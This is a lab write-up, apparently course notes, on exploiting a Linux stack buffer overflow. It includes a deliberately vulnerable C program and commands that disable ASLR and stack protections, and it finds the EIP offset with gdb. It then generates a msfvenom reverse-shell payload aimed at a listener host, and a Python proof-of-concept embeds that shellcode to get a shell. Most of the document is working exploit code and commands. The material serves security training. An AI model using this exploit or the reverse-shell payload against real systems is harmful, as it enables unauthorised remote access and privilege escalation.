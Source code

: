 # Linux Buffer Overflow Foundation
## 1. What is Buffer Overflow
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system as a whole, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques.

[bo_imagination.png](https://github.com/7heKnight/Learning-Reports/blob/main/INE/Linux%20Overflow%20Foundation/image1.png)

## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):
```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:
```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code
```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash
```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```

[image1.png](https://github.com/7heKnight/Learning-Reports/blob/main/INE/Linux%20Overflow%20Foundation/image1.png)

As we can see, the program works good, so let's try with bigger size:
```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```

[image2.png](https://github.com/7heKnight/Learning-Reports/blob/main/INE/Linux%20Overflow%20Foundation/image2.png)

At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:
```bash
$ gdb -q oversize_overflow
```
In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:
```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```

[image3.png](https://github.com/7heKnight/Learning-Reports/blob/main/INE/Linux%20Overflow%20Foundation/image3.png)

Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:
```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```
Get back to terminal, create the basic exploit to see if it overrided:
```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```
Run the input file in gdb debugger, we can see the `EIP` overrided with 0x42424242 (meant BBBB). We are completely done with overriding the `EIP`.
![[image4.png]]
### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it
```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```
- Options description:
```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```
![[image5.png]]

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.
```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```
After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.
![[image6.png]]
In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address
#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:
```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```
After run we have text file `input.txt`![[image7.png]]
Finally, we got the result, shellcode is connected![[image8.png]]
![[image9.png]]

------------------------------------------------------- Done -------------------------------------------------------
